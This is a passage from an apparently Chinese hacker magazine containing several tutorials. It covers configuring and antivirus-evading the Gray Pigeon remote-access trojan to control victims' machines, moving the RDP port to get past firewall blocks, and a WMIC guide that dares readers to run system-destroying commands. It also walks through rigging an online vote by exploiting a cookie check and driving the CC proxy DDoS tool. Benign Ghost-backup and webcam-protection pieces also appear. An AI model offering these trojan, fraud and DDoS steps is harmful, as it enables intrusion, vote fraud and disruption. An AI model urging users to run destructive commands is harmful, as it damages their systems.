### 一、实际操作

首先运行灰鸽子黑防版的客户端程序，接着点击“配置服务程序”按钮来配置一个服务端程序，然后对生成的服务端程序进行免杀操作，如图 1：


图 1 配置服务端

关于免杀的部分，大家只需要参照以往的《黑客手册》栏目“黑客免杀班”的内容对自己的服务端程序进行免杀处理即可。免杀完成后，一定要对免杀的服务端程序进行测试。

接下来我们将服务端程序的名称改为 CServer.dat，然后“大度”地将该文件发布到网上供他人共享。CServer.dat 本来是黑防版灰鸽子所在目录的“Cache”文件夹中的一个文件，它其实就是服务端程序的母体，或者是一个没有写入配置信息的服务端程序。可现在发布出去的 CServer.dat 文件中，却包含着我们设置的相关消息。别人只要使用我们共享的鸽子，他们捉到的肉鸡就会飞到我们自己家里，为什么会这样呢？

### 二、原因分析

运行 Restorator 载入我们免费发布的 CServer.dat 文件，接着在资源树中选择“RC 数据”中的“HACKER”项目（真正的 CServer.dat 文件是没有这个项目的），从中我们可以看到一段代码。这段代码就是我们的服务端配置信息，只不过这段信息是经过加密的。然后点击工具栏中的“编辑模式”命令，在右侧的编辑窗口中点击鼠标右键中的“全选”命令，如图 2。这样就可以将窗口中的配置信息全部选中，接着将这段信息复制到一个空白的文本文件中。

接下来我们将 CServer.dat 文件替换掉黑防版灰鸽子所在目录的“Cache”文件夹中原有的 CServer.dat 文件，然后运行灰鸽子黑防版的客户端程序，再点击“配置服务程序”按钮来配置一个全新的服务端程序。


图 2 复制配置信息

这里我们需要提醒大家：生成的服务端程序不能进行加壳处理，不然我们就无法读出其中的配置信息。

下面我们再运行 Restorator 载入刚刚配置的服务端程序，同样在资源树“RC 数据”下面的“HACKER”项目中，读取其中的代码信息并将其复制到文本文件中。最后我们对前后两段配置信息进行对比，居然发现两段配置信息一模一样，如图 3。


图 3 前后两段配置信息

所以我们就应该明白为什么别人配置的木马程序会连接到我们的客户端程序了，原因是我们的配置信息根本就没有写入到服务端程序的母体中，所有的密码都隐藏在这段配置信息的代码之中。

### 三、防范处理

以后如果我们从网上发现有人发布 CServer.dat 的话，首先将其改成 CServer.exe，然后运行 Resource Hacker，点击“文件”菜单中的“打开”命令选择 CServer.exe。在资源树中选择“RC 数据”中的“HACKER”选项，其中有一个为“0”的项目，如图 4。


图 4 删除这个资源

在该项目上点击鼠标右键，再选择其中的“删除资源”选项。完成操作以后，点击“文件”菜单中的“另存为”命令，将其重命名为 CServer.dat。

最后将其复制粘贴到灰鸽子黑防版所在目录的“Cache”文件夹，替换原来的 CServer.dat 即可。这样用户既可以使用免杀的服务端程序，又不会暗中帮别人捉鸡，所谓一举两得。

**编辑点评：**在网上单独发布一个服务端没有什么价值，但你注意过没有，现在各种免杀版的鸽子满天飞，很多都是个人制作的，你在使用这种鸽子的时候有没有想过，可能你已经在别人的养鸡场添砖加瓦了呢？

## XP 远程桌面端口修改方法

疯狂杰泽尔

- 从本文中你可以学到：
- 改终端服务的默认端口的方法

大家应该知道远程桌面连接默认使用的端口是 3389，一旦公司在服务器或路由器上将 3389 端口进行了封锁，我们就没有一点办法了。其实远程桌面的使用端口是可以进行修改的，我们可以修改为公司没有禁止的端口，如 21 或 80 等。这样就可以再次轻松管理远程计算机了。将 3389 端口修改为 80 端口的方法如下：

**第一步：**在远程计算机（即被访问的计算机）上通过任务栏的“开始->运行->输入 regedit”，打开注册表编辑器；

**第二步：**在注册表中找到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp，将其下的 portnumber 值从 3389 修改为 80，注意 10 进制和 16 进制数字的区别；

**第三步：**还需要在注册表中找到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp，将其下的 portnumber 值从 3389 修改为 80，同样注意 10 进制和 16 进制数字的区别。

全部修改后重新启动计算机就完成了被访问计算机上的设置。

**第四步：**这样我们就可以在网络中任意一台安装了远程桌面登录器的计算机上连接刚刚设置的计算机了，使用的端口是 80 端口。值得注意的是在输入被访问计算机 IP 地址时需要使用类似 ip:80 的形式，比如 192.168.56.8:80。

> 编辑点评：修改某个服务的默认端口为我所用是最简单的隐蔽自身的方法，很多远程修改终端服务端口的程序都是通过注册表修改上述的两个键值来实现的。

## 制作自己的一键还原系统

icyleaf

- 从本文中你可以学到：
- 1、通过矮人 DOS 工具箱备份还原系统
- 2、利用 Ghost 光盘备份还原系统

有的人经常中毒、木马以及恶意软件而使系统“瘫痪”，有的人经常测试安装各种软件而使系统速度变得越来越慢而无法正常使用系统；有的人……总而言之，无论怎样使用都会有重新安装系统的一天。然而系统安装是一个漫长的过程，无论使用任何版本的 XP 也得要 40 多分钟，系统安装完毕后又可能会花去 1-2 个小时的时间来安装自己使用的软件。

Ghost 是一个神！备份系统以后，使用它可以在短短几分钟之内还原到 Perfect（完美）状态。从它的诞生到现在，虽然已经有了 Ghost 10 for Windows 版可视化界面，但个人觉得 8.3 版是最成熟最完美的版本。

Ghost 在 DOS 状态下是发挥最完美的，其强大的功能致使操作起来有点复杂，这让初学者一接触可能是一头雾水！更别说制作自己的一键还原系统。

由于本文是针对初学者而作，所以我们用完全傻瓜式集成软件来简略化小菜们与 Ghost 的接触。因为网络上发布的大部分备份/还原软件，其核心基本都是内嵌的 Ghost，所以利用现成的软件来制作一键还原系统还是蛮简单的。这次我们要制作两个版本：硬盘版和光盘版。

### 一、硬盘版

制作硬盘版的一键还原系统，我推荐使用“矮人 DOS 工具箱”这个软件，看似界面不怎么样，但它的功能却是很强大的，尤其是实现 Ghost 的全部功能，而且还支持 FAT/FAT32/NTFS 格式分区。在此基础上还加入了一些很实用的软件，如中文支持、密码设置、硬盘分区等等，下面为了给大家图文并茂地演示，所以在 VM/VPC 虚拟机里进行测试！


这款软件是安装包的形式，所以需要先进行安装，安装完毕以后，重新启动系统，你会发现在进入系统之前出现了多菜单选择。如图 1：


多菜单中新增加的“DOS 工具箱”就是安装完“矮人 DOS 工具箱”这个软件添加的。选择它并按回车，出现如图 2 的菜单。第一个是普通加载，第二个是支持 USB 设备加载。最下面还可以通过相关按键选择模式，一般情况下用不着它们。


若没有特殊情况，选择第 1 项就可以了。需要等待加载完毕，立即出现“矮人 DOS 工具箱”的主界面，如图 3。

除了前三个选项，后面的几个选项在第 2 选项里基本都有提供，我们按照常用操作进行演示。


在主界面选择“1. 进入矮人 DOS 工具盘”选项，在这里可以对相关功能选项进行设置，选项前面的 [] 中出现 * 就代表被选择，如图 4。

返回主界面后，选择“2. 进入 Ghost 工具向导”，来到“GHOST 操作菜单”界面，如图 5。


这时选择“1. 一键备份系统 支持 NTFS”选项，这样就可方便地把我们的系统进行备份，并且它支持双硬盘。如果你有两个硬盘，可选

择需要保存到哪个硬盘，一般都保存在第一个硬盘，如图 6。

选择保存到的硬盘后按回车，工具会提示保存到哪个分区上。注意：这些操作都是覆盖方式，所以在保存之前一定要先确认哦。

安装一个软件，通过几个按键就可以轻松备份我们的系统，是不是很方便？以后系统出现问题需要还原的时候也是一样的方便。我们只要按照前面进入的方式在图 5 出现的菜单中选择“2.一键恢复系统 支持 NTFS”，就可以把第二分区的 GHO 文件恢复到系统盘，这样我们的系统就恢复完毕并还原了。

> 小提示：如果在工具中无法通过按键返回到主界面，而是进入到 DOS 下，我们可以通过输入“menu”命令再次返回到主界面；输入“gh”返回到“DOS 工具向导”界面；操作完成后，输入“restart”就可以重新启动计算机。

## 二、光盘版

虽然矮人 DOS 工具箱使用起来操作简单、功能强大，但很遗憾的是它并没有提供制作光盘版的一键还原功能。本来我想把它移植到光盘上，可惜它好像是采用自己修改后的 Grub 引导方式，所以并没有成功，网上也没有相关的解决方法，只好另找了一个支持制作光盘版一键还原的工具软件——“一键 GHOST 8.3 Build 06120 光盘版”了。

首先我们要将“一键 GHOST 8.3 Build 06120 光盘版”刻录到光盘上，我们使用的是 Nero 这款软件。读取 ISO 格式文件并刻录到光盘中后，一张带有“一键 GHOST 8.3 Build 06120 光盘版”的启动光盘就做好了。

接着要在电脑 BIOS 里做设置，让电脑将光驱作为第一引导设备或独立引导设备，这样就不需要通过硬盘来运行系统。相关设置完成后，重启电脑并在光驱中放入刻录好的“一键 GHOST 8.3 Build 06120 光盘版”启动光盘，一切正常的话就会自动进入光盘，选择“一键 GHOST”进入主菜单，如图 7，界面简洁而功能实用，还支持鼠标选择！

“1.一键备份 C 盘”是把生成的 GHO 文件保存在硬盘的最后一块分区上；“2.一键还原 C 盘”也是从最后一块分区上获取 GHO 文件进行还原，要备份/恢复系统只需在这里进行选择就可以了。而且为了确保正确的操作，在最终进行备份/恢复之前都会进行提示，如图 8、图 9。

主菜单“3.中文向导”中的“1.备份向导”其实就是简化的中文版 Ghost 备份，如图 10。

它可以备份你选择的分区并保存在你选择的分区上，还可以调整压缩率以及是否需要密码保护；“2.恢复向导”是从硬盘（FAT32/NTFS）或光驱中找到 GHO 文件进行恢复；“3.对拷向导”其实就是硬盘克隆；“4.高格向导”可以将指定分区格式化，并有 FAT 或 NTFS 两种格式选择，如果你备份时要求比较高的话，这里应该可以满足你的需要。

如果你不小心误操作进入了 DOS，它还有提示，输入相关命令就可以进行操作，如图 11。

## 三、合二为一

小菜菜：这很简单嘛，WinRAR 可以解压缩 ISO 文件，再把矮人 DOS 工具箱添加到里面不就 OK 了嘛。其实不然！ISO 虽然可以被 WinRAR 解压缩，但如果 ISO 文件隐藏了引导文件，当我们再做成 ISO 就无法被引导（小菜菜：那如何合二为一呢？）。使用 UltraISO 这个软件可以打开 ISO 文件并任意添加文件，保存为 ISO 文件就没问题了。另外，你还可以使用 EasyBoot 自己制作启动光盘。

由于一键 GHOST 本身就是光盘版，所以直接用 UltraISO 就可以了。用 UltraISO 打开“一键 GHOST 光盘版.iso”这个文件，在下面的文件管理器中找到“矮人 DOS 工具箱”的安装文件，然后用鼠标选择后按住左键不放，直接拖到上面的 ISO 文件列表中就行了，添加其他文件也是同样操作。如图 12：

最后单击“保存”后，ISO 文件进行重新制作，添加的文件就到 ISO 文件中了。虽然添加“矮人 DOS 工具箱”进去在功能上有些重复，我这里也就只是教给大家一个方法技巧，大家可以通过这个方法添加更多更有用的工具到你的光盘。

到此为止，一张属于自己的一键还原系统我们就已经做好了，只要备份一下系统保存在硬盘或者 DVD 光盘上就万无一失了。如果还有机会的话，我会详细给大家讲述如何制作像“矮人 DOS 工具箱”或者“一键 GHOST”这样的集成软件。

> [文章中涉及到的相关工具软件：矮人 DOS 工具箱、集成矮人 DOS 工具箱的一键 GHOST 光盘版和 UltraISO 绿色注册版均在本期光盘中有收录。]

> 编辑点评：重装系统是小菜们最烦心的事情，不是因为难，而是因为麻烦！有了 Ghost 是我们的一大幸运，但并不是每个人都会用 Ghost，所以现在就出现了许多集成工具。利用好这些工具能给我们带来很多方便，研究这些工具，也能带给我们很多知识。从最简单的本机 Ghost 到系统克隆、驱动集成等，系统集成方面还有好多的知识需要你去掌握呢！当然，也非常期待作者在某期给我们带来集成软件的制作方法。

## 菜鸟玩转 WMI / WMIC（上）

凤飘雨

- 从本文中你可以学到：
- 1、什么是 WMIC
- 2、利用 WMIC 管理计算机

前面两课的知识你已经掌握了吗？现在我们终于可以转入 WMIC 的学习了。WMIC 也是一个命令行工具，类似 CMD。它可以通过 WMI 对计算机的几乎所有资源进行管理，无论在系统设置还是在入侵方面，它的应用都很广泛。你能不能不用任何程序就删除服务和日志吗？管理员把 net.exe 删除了，你还可以管理用户和共享资源吗？这并不是不可能，而这些，WMIC 都可以做到！下面就来看看微软官方对它的定义：

> Windows Management Instrumentation 命令行（WMIC）提供了简单的 Windows Management Instrumentation（WMI）命令行界面，这样您可利用 WMI 来管理运行 Microsoft Windows 的计算机。WMIC 与现有命令行程序和实用程序命令相互操作，且很容易通过脚本或其他面向管理的应用程序来扩展 WMIC。

要启动 WMIC，只需要在 CMD 中运行“wmic”就是了。第一次运行，系统会自动安装 WMIC，然后就可以使用了。进入 wmic 后的界面如图 1 所示。

图 1 WMIC 的界面

WMIC 可以以交互和非交互两种方式运行，运行 wmic 进入的就是交互模式，在这里执行的操作大多需要你的确认，并且会返回执行结果。非交互模式你可以直接在“运行”里或者在 CMD 中输入“wmic 指令”，这时候的操作不会再经过确认，但结果仍然会返回。

简单地说，WMIC 提供的是非常灵活的管理方法，使用它不像用 DOS 那样使用一条固定的命令来完成一个功能，而是要命令的组合。你可以搭配出你最喜欢的工作方式来完成工作，其中有几个概念，如别名、开关等。

> 小知识：什么是别名？
> 别名机制获取用户在命令行上输入的一些简单命令，按照预定义的方式操作 WMI 名称空间。例如根据一个简单的 WMIC 别名 Get 命令构造出一个复杂的 WMI 查询语言（WQL）命令。从这个意义上看，别名是用户和名称空间之间一个简化操作的中间层。

你可以这样理解，WMIC 中的别名用来指定你要做哪部分的工作，而查询能让你定位到你要具体操作的那个对象，然后你可以调用“set”指令更改这个对象的某个属性，也可以用“call”调用对象的某个方法。而如果你只是要查询这个对象的信息，那就可以用控制输出格式开关来使结果更有条理。

这其中最常用的也就是“where”、“get”、“list”、“set”、“call”、“delete”，由于篇幅关系我不能把这些开关的语法做详细的介绍（一个开关就可以写成一万多字专题了……），所以这几个开关的简单应用我会穿插在例子中讲解。

首先，让我们来看看 WMIC 在进程管理方面的杰出表现。

WMIC 中进程管理的别名是“process”，我们在提示符后面输入 process，就可以列出当前所有进程了。如图 2：

从图中可以看到，命令显示出了进程的名称和命令行（这个是大家很需要的吧）。你别以为这样就完了，你把右端的滚动条向右拉，看到了吧！显示出来的信息会让你很吃惊！它一共显示了四十项与进程有关的参数！除了 PID、程序路径等常用的以外，甚至包括了程序句柄、内存调用、线程等信息。

图 2 列出所有进程

现在在命令行下，你又多了一种查看和管理进程的工具了，这个可比 tasklist 好多了吧。并且现在有些木马可以在任务管理器中隐藏进程，可要在 WMIC 中隐藏可没那么容易，它会成为你查杀木马的好帮手！

上面的操作只是列出了全部进程，下面跟我一起来定位到某一个进程看看。也许你并不明白为什么要定位，在 WMIC 中的每一个操作都要定位到一个具体的资源，否则你操作的就是这个类中的全部资源。假如我现在不定位到一个具体进程就执行结束进程的指令，那我将会结束掉所有的进程，电脑将瞬间蓝屏重启！不信你可以在“开始”——“运行”中输入这样一条命令：“wmic process where handle!='0' delete”。谁说 2003 不会蓝屏的？蓝了吧，死了吧……

要定位到具体资源，那就要用到“where”了。它的语法类似于 SQL 查询，假如我们要定位到“cmd.exe”，只需要命令“process where name='cmd.exe'”。这条命令将只列出与 cmd.exe 有关的信息，说明我们已经定位了 cmd.exe。

下面就简单地讲一下 where 的用法了，where 后面一般接某一个属性，where 某个属性=属性值，它会把所有资源中那个属性等于属性值的资源，也就是符合 where 后面那个条件的资源列出来，上面的命令就是把“name”等于“cmd.exe”的资源列出来。如果用 where ProcessID=1000，那就表示把 PID 等于 1000 的进程列出来。它支持逻辑运算 and、or 等。“=”表示等于，“!=”表示不等于。

下面再输入命令“process where name='cmd.exe' list full”。看看，结果如图 3 所示，cmd.exe 的详细信息列出来了。

这次列出来的格式与原先不同，不是横排而是竖排了，这是因为我们用了另一个开关——“list”。开关“list”和“get”都是控制信息格式的，它们可以对结果进行筛选，能保证你得到想要的结果。

比如上一个例子中的“list full”就表示列出全部信息，而如果你使用“list brief”那它只会列出关键的几个属性。list 还可以控制结果输出为 HTML 或者 XML 等，这里就不多介绍了，大家可以自己实践。

Get 是比较有用的开关，它能够帮你筛选出你想要的东西，一般的用法是“get 属性, 属性, ……”，它只列出你指定的属性信息，例如我们输入命令“process get name, processid, ExecutablePath”，执行的结果如图 4，可以看到命令只列出了进程名、exe 的路径和 PID，其他的就不会再列出了。

只是查看进程信息当然是不够的，那怎样对进程进行操作呢？这就要用到其他几个命令了。“wmic”有几个基本固定的命令，例如“CREATE”就是创建一个资源，“CALL”调用方法；“DELETE”删除某个资源等。

比如我们要结束掉“cmd.exe”这个进程，只要输入命令“process where name='cmd.exe' delete”，意思是：首先定位 cmd.exe，然后从系统中删除这个资源。它是直接卸载资源，所以平时结束不了的进程用它也可以结束，包括最关键的系统进程。还记得刚才那个让你蓝屏的命令吗？就是因为它卸载了关键的系统进程所以导致蓝屏。

只能结束进程当然不够，下面让我们一起来练习一下创建进程，process 提供了 create 方法可以用来创建一个进程。我们可以用“call”来调用这个方法。

> 小提示：要查看某一个别名都提供了哪些方法，可以输入“别名 call”；要查看某一个别名提供了哪些可以更改的属性，可以输入“别名 set”。

如图 5 所示的就是 process 所提供的方法，可以看到 create 方法的用法后面有标明，它有“CommandLine”属性，值为字符串，这就是我们要新建进程的命令行。如果我们要新建一个 cmd.exe，那就可以用命令“process call create commandline='cmd.exe'”，这时 WMIC 会询问你是不是要创建资源，输入“y”，一个 cmd 窗口就打开了，同时 WMIC 会返回新进程的创建情况，如图 6。

它还包含其他方法，如“getowner”取得进程的所有者。有的时候电脑中病毒了，在任务管理器里会显示不出进程对应的用户名，给查杀带来麻烦，这时你就可以用命令“process where handle!='0' call getowner”来得到所有进程的拥有者了。会了 WMIC，从此腰不酸了，腿不疼了，杀毒也不用冰刃了（还是《黑客手册》好，现在一本顶过去 5 本，记住，要带光盘的！）……

到这里我只是很简单地介绍了 WMIC 中一个控制进程的别名的用法，而 WMIC 一般默认就有 80 多个别名，并且会根据你安装组件的不同而增加和修改，而 WMIC 仅仅是一个 WMI 的命令行工具。现在了解到了 WMI 有多强大了吧？你能够掌握 WMI 的 20%，你绝对是 Windows 中难得的高手了。

本来还有很多更精彩的实例要展现给大家，但限于篇幅，只能放到下期了，想知道都有什么内容吗？嗯……胆子大的话，你在“开始”——“运行”里输入这样一条命令试一下：“wmic service delete”，对，只需要这三个单词，保证让你郁闷到想自杀。后果嘛……仅仅需要重装系统而已……呵呵！不要玩火哦！原理嘛……下期揭晓！

> 编辑点评：内容已经很压缩了，居然才讲了一个实例！？不是我太啰嗦，而是 wmic 的内容实在太丰富，太多了，完全可以写一本很厚很厚的书了。风飘自由能力有限，能带给大家的只是一些简单的应用，现在网络上还没有一份完善的 wmic 教程及资料。如果你想继续深入，还需要自己多努力啊。（NOHACKER）

首语：TX 自从上次被入侵后，安全意识果然增强了许多，前不久刚爆出一个 QQ 的 0day 漏洞，到截稿的时候居然被补上了，所以本来要带给大家的新年礼物就这样被抹杀了，大家要怪就怪 QQ 吧。把它拖到屏幕中间用鼠标狂戳几下，呵呵。看来要想提高安全意识，还是要有人“提醒”一下才行啊。

李嘉义 @CNSU

## 网络海选 CC 当选最佳评委

- 从本文中你可以学到：
- 1、如何查找投票系统的缺陷
- 2、多种刷票的方法
- 3、利用 CC 刷选

一天，和中华盾的兄弟闲谈，听说他们那里也在搞什么类似“选美”的活动，现在正处于网选阶段，不过据说有人花钱买刷假票。近年这样的活动越来越多，不公正的刷票情况也到处都是，已经见怪不怪了。我要过网址看一看，排在第一位的好多选手真是很难用一个“美”字来形容。就算是地方性的活动也不能任由刷票者乱来，看来我还要做下“评委”，修正一下“美”的标准。

## 一、准备工作

首先开始当然要先了解一下这个投票系统，在选手的照片边上点击那个投票的按钮图片，如图 1。

之后，会跳转到一个 PHP 的程序页面。据经验分析，这个 PHP 程序应该会记录你的客户端信息，写入数据库后，执行跳转语句返回。果然，点击确定后，如图 2，跳转回投票主页。

投票的过程清楚了，再看一下，能不能重复投票。再点击“投票”按钮，果然如自己所料，人家不会那么傻地让人重复提交，如图 3。能不能给其他人再投票呢？找了一个还顺眼的 MM 试了一下，结果是可以的。

前台的过程清楚了，下面我用 WinSock Expert 来抓包，看看数据发送过程能不能找到什么线索。通过对抓包的分析，原来服务端程序是通过客户端的 COOKIE 信息进行判断投票方，通过记录在 COOKIE 里的投票对象 ID 和投票时间戳（图 4）配合服务端的 IP 记录，可以防止同一个 IP 在 15 分钟内反复刷票。

这里再提一点，同一个 IP 在 15 分钟内是允许对不同的选手进行投票的，这里 COOKIE 也进行了记录，只不过两个选手 ID 之间用 Unicode 码 %2C 相隔，这是逗号的意思，如图 5。不过总而言之，这个投票系统存在严重漏洞。

## 二、攻击过程

了解这个系统的防刷票原理，一切都好办了。下面有请各位“评委”登场！

### 方法一：

既然是通过客户端的 COOKIE 判断，那么我阻止 COOKIE 是什么结果呢？想到就要做！先在桌面上右键点击 Internet Explorer 的属性，或在 IE 的“工具”菜单里点击“Internet 选项”，如图 6；

在弹出的窗口里选择“隐私”标签项，点击“高级”按钮，如图 7。

弹出“高级隐私策略设置”窗口，勾选“覆盖自动 COOKIE 处理”，再选择“拒绝”后点击“确定”即可，如图 8。

> 小提示：阻止 COOKIE 之前，一定要按常规方式投过票或是按这个网站的 COOKIE 格式伪造一份，因为投票系统一定要从客户端读到 COOKIE 的信息才认为是合法投票，否则不仅不能成功投票，还会跳转到另外两个网站页面中。

设置完毕后，再点击中意的选手，弹出图 2 的 JS 框“谢谢你的参与”，再点，依然如此。再看得票数，每点一次，就上涨一票。看来，已经突破了程序的防刷票限制，不过就是累点。就算按最快 2 秒投一票的话，一分钟才 30 票，要想追上几万的票数，不仅要多找一些人来点，而且还得专职才行。看来这种“评委”实在是比较辛苦。

### 方法二：

既然手动点击太累，那么能不能通过程序实现投票自动化？马上动手，先找出投票提交的页面。仔细地观察了一下，点击投票按钮弹出的页面很可能就是投票数据提交的页面，再看下抓包，图 4 的最顶一行，果然是通过 GET 方法获得选手 ID，从而向该 ID 里加入投票数。

知道了投票页面的程序处理地址，来试一下吧。先记住投票前的那个选手票数，直接在地址栏里输入：http://***.***.com/manage/fcounter.php?id=**（id=后面的值是你所投票选手的 ID，可根据自己的意愿输入），然后并不关闭弹出的 JS 框，新开窗口看一下，果然增加了一票，看来是先执行投票数据，再执行跳转 JS。

进一步了解投票系统后，可以实现自动投票的思路马上就清晰了，客户端的 JavaScript 脚本就可以搞定，如图 9。

自动化虽然实现了，但还是很不方便，弹窗占用很多系统资源，必须要关了，才能进行下一轮的投票，不然太多的 IE 窗口会消耗掉自己电脑的资源。虽然比手动快了一些，但如此当“评委”，效率还是比较差。

### 方法三：

以上两种方法感觉都不太理想，不是速度慢，就是太耗系统资源，想到自己有网站、有服务器，还有肉鸡，每天的独立 IP 上万，也许可以好好地利用一下。

拿自己的站先新建个页面，用挂马的方法试了一下，虽然投票数增加了，但会有 JS 弹窗，就算有拦截功能的 IE 也会出现提示。虽然不是病毒，放在自己网站上还没什么，放肉鸡上总是感到不太好。理论上这个方法是可行的，投票速度快，也省心，但要有很多的前提条件，比如访问量比较高的网站等，没有网站和肉鸡的支持，这个方法将很难实施。

### 方法四：

利用投票系统的漏洞，本地投票太慢，通过服务器刷有弹窗，正在想要是有好多傀儡机可供使用就好了。不过平时不玩木马，这种资源是没有了。突然之间 CC 浮出眼前，这个工具和傀儡机有异曲同工之妙，都是通过不同的独立 IP 来访问同一个资源，只不过一个是通过控制傀儡机，一个是通过代理。后者比较轻松，从互联网上可以找到足够多的代理即可实施。

### 什么是 CC？

CC（Challenge Collapsar）是一个利用代理进行 DDOS 的程序，攻击者借助代理服务器生成指向受害主机的合法请求，实现 DDOS 和伪装。

平时的 DDOS 方法没想到可以用到这个投票系统上，想到不如做到，现在就动手，试试效果再说！

- 1. 先用代理超人找到足够的代理，如图 10，并做有效性验证。然后只导出代理地址和端口，如图 11。


- 2. 打开 CC 工具，如图 12，Refer 表示提交的页面的来源，Mozilla 表示浏览器类型，COOKIE 是记录在本机的 COOKIE 信息。以上三种信息都可以通过 WinSock Expert 的抓包获取，如图 4。在这里特别注意一下，COOKIE 的信息必须填写，否则就会被视为非法投票，只能算普通的页面攻击，而达不到刷选票的目的。


- 3. 在 CC 工具的 ProxyList 栏下点击 Load 键导入刚才导出的有效代理列表，并将所选的投票提交页面以图 13 的方式复制出来，粘贴到 AttackList 下面的地址栏里，点击 ADD 加入列表。


说明一下，千万别忘了在网址前加“G”这个参数，是说明提交是以 Get 方式获得。如果想同时将多个选手向前刷，那就按刚才的方式，复制不同选手的投票提交地址增加到列表里。其它相关设置很简单，不再详细描述，请参考图 12。不过，线程不要设得太大，我这里设置的是 200，已经很快了，几分钟就可以刷出几千票，如果代理够多，刷得更快。


过了一会儿，看看结果，果然神速，刷票前的某个选手的票数为 1609，如图 14，刷票以后已经是 3 万多了，如图 15，排在了第一页。

而且只要你想继续刷，还可以更多，现在这个网站的活动排名已完全掌控在我的手中了。CC 由于速度快、不弹窗、不占用资源等多项优势，当之无愧地成为了此次投票的最佳“评委”。


## 三、防范思路

其实这个系统防范刷票很简单，我给出以下几点思路，如果那个网站的程序员可以看到的话，希望能帮上点小忙。考虑不周的地方也希望看到此文的朋友一起想出更多、更好的办法。

- 1. 通过在服务器安装可以阻止代理访问的防火墙，能有效防止利用代理刷票。不过有得就有失，使用代理的合法用户也会被阻止访问。（现在已经有了阻止代理的 IP 策略）
- 2. 使用服务端 SESSION 验证或与客户端 COOKIE 相结合的方式验证投票的有效性。当客户访问是海量级时，此方法会增加一些服务器的负载，但安全性要比仅验证 COOKIE 强得多。
- 3. 改变程序验证的语句结构。例如这个投票系统就是简单验证完 COOKIE 之后就先执行投票数据，然后再执行 JS 语句。其实完全可以利用 CC 之类的软件无法运行脚本和对脚本做出判断的特点，换个程序的执行顺序即可。把 JS 执行放在前面，数据执行放在后面，如果客户端不对 JS 做判断处理，下一段的数据始终处于暂停状态，无法继续。这样一来，程序验证顺序就变成了，先服务端判断，再客户端确认，然后执行写入数据库。
- 4. 生成图片验证码是目前流行的验证方法，尤其在防止 CC 之类的软件刷票方面，是简单有效的方法。

## 结束语

现在这篇文章可以结束了，CC 还可以投票，可以说是 DDOS 工具的另类应用。当然也说明了那个投票方对网络安全重视不够，也体现出程序员的安全水平较低。我们的这种行为并不是为了玩闹，只是想通过我们的不懈努力，能使全体网民的安全意识有所提高。中国目前的网络安全依然是任重而道远。

> **编辑点评：** 验证不严是现在多数投票系统都存在的问题，因为刷票的方式实在太多，所以很难防御，采用验证码是比较好的方法。针对本文，作者利用了 CC，思路不错，当然如果在服务器上，你可以试一下利用 XML 等，效果会更好哦！

## 给摄像头安装一个金钟罩

- **从本文中你可以学到：**
- 通过软件保护你的摄像头

记得网络中曾经出现过一篇名为“女孩，请小心你的摄像头”的帖子，文中提到现在有人通过摄像头来进行偷窥，尤其是当夏天人们穿得比较少的时候，就更容易在摄像头面前“走光”。喜欢玩木马的朋友都知道，现在主流的木马程序都含有一个“视频监控”功能，使用这个功能就可以通过摄像头查看用户的行动。当然，如果用户已经打开摄像头进行使用，木马程序是无法再使用的，因为摄像头只能同时给一个程序使用。

现在的“视频监控”功能往往很强大，同时包括视频数据获取、数据保存、数据压缩等功能，所有的功能都会在远程用户毫无察觉的情况下进行实施，比如强行打开主机上的摄像头偷窥。

如果发现一些精彩的内容，还会通过保存功能将视频信息保存在本地计算机之中，于是很多用户就是在毫无察觉的情况下，将自己的一举一动暴露在黑客面前的。

对于摄像头偷窥的防范方法，以前只是简单地将摄像头从主机的 USB 接口拔掉即可，或者是用某些东西将摄像头盖住，但是这些方法都比较麻烦，而且也影响我们正常使用摄像头。现在好了，有一款名为“USB 摄像头偷窥终结者”的软件面世，可以轻易地通过鼠标选择阻止摄像头的操作。

目前捕获摄像头有两种常见的方式，一种是基于 Vfw 接口，另一种是基于 DirectX 接口。由于 DirectX 接口比较占用 CPU，而且 COM 接口是比较麻烦的，所以目前流行的木马程序有 99.99% 都是使用 Vfw 接口来进行摄像头捕捉，Vfw 接口就是调用摄像头的接口。由于摄像头有各种牌子和型号，所以微软为了简化程序员的操作提供了统一接口，使开发者无需关心硬件接口。

“USB 摄像头偷窥终结者”是一款绿色软件，目前支持所有的 Windows 系统，包括刚刚推出的 Vista 系统也可以很好地支持。该程序主要就是通过监测 Windows 系统中的 Vfw 接口，来判断摄像头是否开启。“USB 摄像头偷窥终结者”


运行后会默默地在系统任务栏中进行监控，同时在程序目录中释放一个名为“UsbCamSecurity.dll”的 DLL 文件。懂得编程的朋友都知道，该程序正是通过这个 DLL 文件钩住了那个函数，从而对摄像头的操作进行监控，如图 1。


当有程序意图创建视频窗口的时候，程序将会询问用户是否允许该程序操作摄像头，如图 2，并且告知用户是哪一个进程在调用摄像头。

如果用户确认是自己运行的进程在操作摄像头，那么就点击“是”按钮允许摄像头继续操作；如果不是的话，就应该点击“否”来阻止摄像头的进一步操作。这里需要特别说明的是，现在的木马程序很多都采用了线程插入技术，如果是这样的话，那么提示的就是木马程序插入的那个进程，比如 IE 浏览器的进程。

如果用户系统始终连接了摄像头的话，可以把本程序添加到“开始”菜单中的“启动”目录下，这样就可以让程序每次都随系统自动运行，避免用户一时疏忽给自己带来麻烦。

总的来说，“USB 摄像头偷窥终结者”的监控功能还是非常不错的，但是在功能上比较单一，如果再加上虚拟摄像头的功能，将软件打造成一款反摄像头偷窥的蜜罐程序就更好了。另外，该程序还附带全部源代码，喜欢编程的朋友可以好好地参考参考啊。

> 编辑点评：一款很方便的软件，可以帮你远离被偷窥的尴尬，但也不要因为有了这款软件而掉以轻心，因为大多数的木马是有修改文件和结束进程的功能的。安全不能只靠软件和策略，意识才是最重要的。

## QQ 木马也钓鱼

思彤

- 从本文中你可以学到：
- 1、通过他人的木马取得 QQ 号
- 2、利用号码记录文件来钓鱼

这是小弟无意间发现的一个可以小小钓鱼的方法，所以各位像我一样的小菜们只要留心观察，都会有所收获的，小弟在这祝大家新年收获多多。

在与众多 MM 聊天时，无数次因 QQ 号太烂、太菜等诸多因素被鄙视，所以我也想弄个靓号来玩玩（不要用鸡蛋轰我，我会被吓走的，嘿嘿）。掏钱买吧？买不起！自己去盗吧？没那实力呀！于是偶决定去“参观”一下别人的劳动成果以激励自己。

